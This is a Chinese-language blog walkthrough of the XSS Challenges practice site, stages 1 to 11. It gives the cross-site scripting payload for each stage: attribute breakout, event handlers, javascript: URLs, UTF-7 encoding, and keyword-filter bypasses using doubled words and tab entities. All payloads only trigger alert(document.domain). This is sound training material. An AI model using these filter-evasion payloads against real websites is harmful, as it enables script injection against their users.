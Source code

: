 ```yaml
---
title: XSS Challenges 靶场训练（1-11关）
date: '2019-08-09 14:22:30'
tags:
- web安全
- XSS
---
```


> #### 靶场地址

[XSS Challenges (by yamagata21) - Stage #1](https://xss-quiz.int21h.jp)

<!--more-->

> #### 第一关

没什么可说的，直接插入JS代码：

```
<script>alert(document.domain)</script>
```

> #### 第二关

要先将input标签完结
```
"><script>alert(document.domain)</script>
```

> #### 第三关

在选择国家处，F12把国家名修改成```<script>alert(document.domain)</script>```

> #### 第四关

看源码发现有一个隐藏的输入框，抓包注入代码进输入框里的value值：

![48bced01.png](48bced01.png)

> #### 第五关

输入框有前端验证的字数限制，抓包绕过：

![acd0755f.png](acd0755f.png)

> #### 第六关

输入之前的payload，发现尖括号被转义为HTML实体编码：

![75e56454.png](75e56454.png)

查看提示说使用JS事件：

~~~
" onmouseover=alert(document.domain) "
~~~

注入成功，鼠标每划过输入框都会弹窗，当然事件也可以选其他的，比如onclick

> #### 第七关

额...用上一关的payload依然通过了，不知道发生了什么...

> #### 第八关

这一关要将XSS代码注入a标签的href属性值中，使用如下payload：

~~~
javascript:alert(document.domain)
~~~

点击生成的链接就能弹窗

> #### 第九关

使用UTF-7 XSS。抓包把post的数据改为

~~~
p1=a%2BACI++onmouseover%2BAD0AIg-javascript%3Aalert%28document.domain%29%2BACI++id%2BAD0AIg-x&charset=UTF-7
~~~

该方法要求浏览器能解析UTF-7，在Firefox 68.0.1 (64 位)上没有成功，在IE 11成功了。

至于原理没有认真学习，就不在这误人子弟了哈...

> #### 第十关

测试发现，网站会把domain过滤掉，输入domdomainain，这样过滤后又是domain

~~~
"><script>alert(document.domdomainain)</script>
~~~

> #### 第十一关

测试发现网站把script标签过滤为xscript，onclick之类的过滤为onxxx

列举一些尝试过的payload：

~~~
"><IMG SRC="javasc ript:alert(document.domain)">
"><IMG SRC="javasc\0ript:alert(document.domain)">
"><IMG SRC="javasc&#09;ript:alert(document.domain)">
"><a href="javascr ipt:alert(document.domain)">a</a>
"><a href="javascRiPt:alert(document.domain)">a</a>
~~~

最终成功的是下面的这个payload。其中```&#09;```是空格的html实体编码：

~~~
"><a href="javascr&#09;ipt:alert(document.domain)">a</a>
~~~
